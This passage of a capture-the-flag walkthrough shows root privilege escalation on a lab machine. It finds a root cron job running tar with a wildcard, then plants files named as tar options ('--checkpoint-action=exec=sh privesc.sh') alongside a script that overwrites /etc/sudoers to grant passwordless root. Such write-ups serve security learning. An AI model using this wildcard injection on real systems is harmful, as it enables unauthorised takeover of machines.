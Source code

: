 Checking `sudo -l` shows we can't run it without a password.

Looking in the /home/milesdyson directory shows us the user.txt flag:

`wc -c /home/milesdyson/user.txt`

```
33 /home/milesdyson/user.txt
```

There is a backups directory in his home directory with the following in it:

```
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Oct 27 21:04 backup.tgz
```

Interesting. A root owned bash script that we can execute.

Looking at the script:

```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

So this will create a backup of the html directory with the tar command as root. Backup jobs are usually scheduled so I take a look at the crontab file and it's listed and running once every minute:

`cat /etc/crontab`

```
# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
```

I do some google searching for ways to exploit tar and find that if the tar command has a wildcard in it, which this does, and you can write to the directory that the tar command is executing against you can add a couple files that force it to run commands of your choosing. This is called wildcard injection and you can [**read more about it here.**](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

To exploit this I'm going to create a bash script and then add the files that tell the tar command to run my script. And these will be ran as root since the backup job runs as root.

I change to the /var/www/html/ directory and add this to privesc.sh, and then chmod +x it:

```
#!/bin/bash
echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers
```

And create the two required files:

`echo "" > "--checkpoint-action=exec=sh privesc.sh"`

`echo "" > --checkpoint=1`

Looking at the files in the directory to make sure these created with no issues:

```
-rw-rw-rw- 1 www-data www-data     1 Oct 28 07:49 --checkpoint-action=exec=sh privesc.sh
-rw-rw-rw- 1 www-data www-data     1 Oct 28 07:49 --checkpoint=1
```
